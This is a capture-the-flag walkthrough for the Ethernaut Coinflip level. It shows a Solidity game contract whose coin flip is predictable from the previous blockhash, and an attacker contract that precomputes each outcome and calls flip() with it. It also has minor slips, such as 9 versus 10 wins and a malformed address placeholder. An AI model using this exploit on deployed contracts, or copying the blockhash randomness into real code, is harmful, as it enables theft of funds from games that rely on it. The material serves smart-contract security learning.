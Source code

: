# Coinflip

Third Challenge description is as follows:

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

 Things that might help

- See the Help page above, section "Beyond the console"

Code:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

### Resolution

Ok, the goal of this challenge is somehow predict the outcome of the coin flip every time we call it, and win 9 times in a row! We can immediately see that this is related to the fact that true randomness is really hard to achieve in the blockchain context.

It seems that there's no true random source in the coin flip function, and it depends in public predictable data to calculate the coin flip, so what we could do is try to reproduce the same calculations before calling the `flip` method and then call the method with the calculated guess parameter. 

We'll need a deployed contract for this, as we need to grab the current block value and do some calculations. So we can open online IDE Remix and code our "AttackCoinFlip" contract to guess the coin flip. This is a fairly simple contract and I reckon might be more sofisticated or complex ways of doing this, but basically, we will need to deploy this contract and call 9 times the function `guessFlipValue()`:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v2.5.0/contracts/math/SafeMath.sol"; 

contract AttackCoinFlip {
    // Using SafeMath for aritmethic operations    
    using SafeMath for uint256;

    // The coin flip contract address:
    address private coinFlipAddress = {ETHERNAUT_COINFLIP_CONTRACT_ADDRESS}};

    // Same factor as the coinFlipAddress (we could also read it from contract directly)
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    // Function to pre-calculate the guess and then call the coinFlip contract with the guess
    function guessFlipValue() public {

        // Do the same predictable calculations that coinflip:
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));
        uint256 coinFlip = blockValue.div(FACTOR);
        bool coinFlipGuess = coinFlip == 1 ? true : false;

        // Once we have the guess, call the coin flip contract through the abi:
         (bool success, bytes memory returnData) = coinFlipAddress.call(abi.encodeWithSignature("flip(bool)", coinFlipGuess));

        // Fail if something happens
        require(success, "Flip fail or returned false!");
                
    }
}

```

Don't forget that you can check how many times in a row are you winning via:
```
fromWei(await contract.consecutiveWins())
```

Once you successfully sent the 9 transactions, and the `consecutiveWins()` method shows 9 times, you can submit your instance! 💥 

## License

[MIT](https://choosealicense.com/licenses/mit/)